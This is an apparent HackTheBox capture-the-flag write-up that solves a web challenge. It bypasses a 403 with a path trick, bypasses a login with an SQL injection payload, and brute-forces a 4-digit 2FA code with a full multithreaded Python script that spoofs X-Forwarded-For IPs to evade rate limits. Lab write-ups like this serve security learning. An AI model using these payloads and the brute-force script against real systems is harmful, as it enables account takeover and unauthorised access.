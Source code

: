 ```yaml
---
title: No Threshold
tags:
  - HackTheBox
  - Challenge
  - Web
  - 403_Bypass
  - SQLi
  - Python-Scripting
date: 2024-09-22T00:00:00Z
---
```

![](Pasted%20image%2020241122112333.png)

It seems to be kinda shop. If I try to login I get a Forbidden error:

![](Pasted%20image%2020241122112404.png)

I have to bypass this, so I captured the request with Burp:

![](Pasted%20image%2020241122112445.png)

> With `/../auth/login` I can bypass it :D

![](Pasted%20image%2020241122112522.png)

If we read the `entrypoint.sh` we notice that there is a random user created, so might be a SQLi vulnerability on the login:

![](Pasted%20image%2020241122112746.png)

I captured the request and try some SQLis:

![](Pasted%20image%2020241122113207.png)

It actually worked with `admin' OR 1=1 -- -` (URL encoded) :D

Now I got into a 2FA panel verification:

![](Pasted%20image%2020241122113324.png)

Inspecting the source code, I noticed that the 2FA code has 4 digits, so I can try to bruteforce it:

![](Pasted%20image%2020241122113530.png)

So I decided to create a python script to bruteforce it:

```python
import requests
import sys
import argparse
from concurrent.futures import ThreadPoolExecutor

# Colores para las impresiones
GREEN = '\033[92m'
BLUE = '\033[94m'
RED = '\033[91m'
RESET = '\033[0m'

def get_combinations_in_array(path):
    with open(path, 'r') as f:
        return f.read().splitlines()


def handle_response(response, combination):
    if "Invalid 2FA Code!" in response.text:
        # Mostrar intentos en verde
        print(f'{GREEN}Try: {combination}{RESET}\n')
        return
    elif "flag" in response.text:
        # Mostrar flag en azul
        print(f'{BLUE}GOT IT!\n2FA Code: {combination}\n{response.text}{RESET}\n')
        sys.exit()
    else:
        # Mostrar errores en rojo
        print(f'{RED}{response.text}{RESET}')


def send_request(ip, combination, headers, url):
    headers['X-Forwarded-For'] = ip
    data = {'2fa-code': str(combination)}

    response = requests.post(url, headers=headers, data=data)
    handle_response(response, combination)


def send_all_requests(url, combinations_array, ip_suffix):
    base_ip = '192.168.'
    current_ip_suffix = list(map(int, ip_suffix.split('.')))  # Convertir a lista de enteros
    headers = {
        'Host': '83.136.254.158:36141',
        'Content-Length': '13',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://83.136.254.158:36141',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8',
        'Sec-GPC': '1',
        'Accept-Language': 'en-US,en',
        'Referer': 'http://83.136.254.158:36141/auth/verify-2fa',
        'Accept-Encoding': 'gzip, deflate, br',
        'Connection': 'keep-alive'
    }

    # Multi-threading requests sending (see python ThreadPoolExecutor lib for more information)
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = []

        for i, combination in enumerate(combinations_array, start=1):
            ip = base_ip + str(current_ip_suffix[0]) + '.' + str(current_ip_suffix[1])

            future = executor.submit(send_request, ip, combination, headers, url)
            futures.append(future)

            if i % 5 == 0:
                current_ip_suffix[1] += 1

            if current_ip_suffix[1] > 254:
                current_ip_suffix[1] = 1
                current_ip_suffix[0] += 1

            if current_ip_suffix[0] > 254:
                current_ip_suffix = [1, 1]

            for future in futures:
                future.result()


def parse_arguments():
    parser = argparse.ArgumentParser(description="Brute force 2FA codes to find the flag.")
    parser.add_argument('--target', type=str, required=True, help='The target URL (e.g., http://example.com)')
    parser.add_argument('--combinations', type=str, required=True, help='Path to the file containing the list of 2FA combinations')
    parser.add_argument('--ip-suffix', type=str, required=True, help='The IP suffix to use for requests (e.g., 1.1)')

    return parser.parse_args()


if __name__ == '__main__':
    args = parse_arguments()

    combinations_array = get_combinations_in_array(args.combinations)
    send_all_requests(args.target, combinations_array, args.ip_suffix)

```


>[!Note]
>Since the 2fa code valid time is 5 mins, I'm splitting the wordlist into 5 wordlists of 2000 words each

![](Pasted%20image%2020241122170553.png)

I created the wordlists with the following commands:

```shell
seq -w 0000 2000 > 0k2k-digit-wordlist.txt
seq -w 2001 4000 > 2k4k-digit-wordlist.txt
seq -w 4001 6000 > 4k6k-digit-wordlist.txt
seq -w 6001 8000 > 6k8k-digit-wordlist.txt
seq -w 8001 9999 > 8k10k-digit-wordlist.txt

# Then open a console for each one like:
python x.py --target http://83.136.254.158:36141/auth/verify-2fa --combinations ./4k6k-digit-wordlist.txt  --ip-suffix 13.1
```

I executed different intervals at same time:

![](Pasted%20image%2020241122171242.png)

> Finally got it :D

![](Pasted%20image%2020241122171427.png)

==Challenge completed!==